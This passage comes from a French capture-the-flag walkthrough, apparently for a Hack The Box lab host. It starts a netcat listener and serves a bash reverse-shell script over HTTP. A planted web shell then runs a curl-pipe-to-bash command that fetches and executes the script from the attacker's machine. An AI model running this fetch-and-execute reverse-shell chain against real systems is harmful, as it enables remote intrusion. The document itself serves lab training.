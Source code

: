 ### 7. Démarrer un écouteur ncat sur le port 1337

- **Commande** : `nc -nvlp 1337`

Démarrons un serveur web sur notre machine locale sur le port 8000 et hébergeons ce fichier bash. Il est crucial de noter ici que cette commande pour héberger le serveur web doit être exécutée depuis le répertoire contenant le fichier shell inversé. Donc, nous devons d'abord naviguer vers le répertoire approprié puis exécuter la commande suivante.

- **Commande** : `python3 -m http.server 8000`

Nous pouvons utiliser l'utilitaire curl pour récupérer le fichier shell inversé bash depuis notre hôte local puis le transmettre à bash pour l'exécuter. Visitons donc l'URL suivante contenant le payload dans le navigateur.

- **URL** : `http://thetoppers.htb/shell.php?cmd=curl%20<YOUR_IP_ADDRESS>:8000/shell.sh|bash`

Nous recevons un shell inversé sur le port d'écoute correspondant.

Le flag peut être trouvé à `/var/www/flag.txt`.

- **Commande** : `cat /var/www/flag.txt`